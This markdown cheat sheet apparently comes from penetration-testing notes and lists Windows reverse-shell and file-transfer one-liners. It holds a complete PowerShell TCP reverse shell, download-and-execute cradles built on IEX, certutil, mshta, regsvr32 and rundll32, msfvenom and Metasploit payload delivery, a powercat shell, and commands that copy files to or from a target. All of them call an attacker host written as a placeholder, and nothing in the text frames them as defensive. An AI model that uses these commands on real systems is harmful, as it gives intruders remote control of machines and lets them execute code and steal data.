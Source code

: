 # Shells

## Windows one-liners

```text
https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/
```

## powershell.exe

```text
$client = New-Object System.Net.Sockets.TCPClient("<LHOST>",<LPORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```text
# serve shell.ps1
python3 -m http.server <port>

# execute on target
powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://<LPORT>/shell.ps1\");"
```

## Creating encoded powershell commands on linux

```text
echo -n "IEX (New-Object Net.WebClient).downloadstring('<thing_to_execute>')" | iconv --to-code UTF-16LE | base64 -w 0
```

## mshta.exe

Runs .hta \(HTML Application\) files

```text
# first, we generate hta-psh file with msfvenom
msfvenom -p windows/shell/reverse_tcp LHOST=<lhost> LPORT=<lport> -f hta-psh -o <file>.hta

# then we start server
python3 -m http.server <port>

# and run command on target host
mshta.exe http://<LHOST>:<port>/<file>.hta
```

```text
use exploit/windows/misc/hta_server

mshta.exe http://<attacker>/<path>.hta
```

## rundll32.exe

```text
# first, we generate dll file with msfvenom
msfvenom -p windows/shell/reverse_tcp LHOST=<lhost> LPORT=<lport> -f dll -o <file>.dll

# serve a file throught smb
sudo python3 ../smbserver.py -smb2support -user <user> -password <pass> <share> `pwd`

# execute on target
rundll32.exe \\<lhost>\<share>\<file>.dll,0
```

```text
use exploit/windows/smb/smb_delivery

rundll32.exe \\<attacker>\<path>\<file>.dll,0
```

## regsrv32.exe

```text
use exploit/multi/script/web_delivery

regsvr32 /s /n /u /i:http://<attacker>:<p>/<file>.sct scrobj.dll
```

## certutil.exe

```text
msfvenom -p windows/meterpreter/reverse_tcp lhost=<lhost> lport=<lport> -f exe > shell.exe

# host generated file
python3 -m http.server 80

# start listener (exploit/multi/handler)

certutil.exe -urlcache -split -f http://<target>/shell.exe shell.exe & shell.exe
```

## powershell.exe \(with powercat\)

```text
git clone https://github.com/besimorhino/powercat.git
python -m SimpleHTTPServer 80

powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<attacker>/powercat.ps1');powercat -c <attacker> -p <port> -e cmd"
```

## more ...

```text
https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/
```

# Transfering files

## Using smbserver.py

First we will create samba share using impacket's smbserver.py inside current working directory.

```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py sher .
```

Then we can copy files to our target machine using `copy` command.

```
copy \\<LHOST>\sher\<file> C:\<path>\<file>
```


## Powercat

```text
# source
powercat -c <ip> -p <port> -i C:\<src_path>

# destination
powercat -l -p <port> -of C:\<dst_path>
```

## HTTP server + Powershell

```text
# create server on attacker machine with one of these
python3 -m http.server <port>
python2 -m SimpleHTTPServer <port>
php -S 0.0.0.0:<port>
ruby -run -e httpd . -p <port>
busybox -f -p <port>

# download with powershell oneliner
## download file
(New-Object System.Net.WebClient).DownloadString("<source>","<destination>")

## execute powershell script without touching disk
iex (New-Object System.Net.WebClient).DownloadString("<source>")

## upload file
iex (New-Object System.Net.WebClient).UploadFile("<destination>", "<file>")
```

## pure-ftp

```text
# ftp server needs to be configured before

echo open <attacker> 21 > ftp.txt
echo user <user> >> ftp.txt
echo <pass> >> ftp.txt
echo bin >> ftp.txt
echo get <file> >> ftp.txt
echo bye >> ftp.txt

ftp -v -n -s:ftp.txt
```

## exe2hex

```text
upc -9 <file>
exe2hex -x <file> -p <output>.cmd
# copy paste into target terminal
```


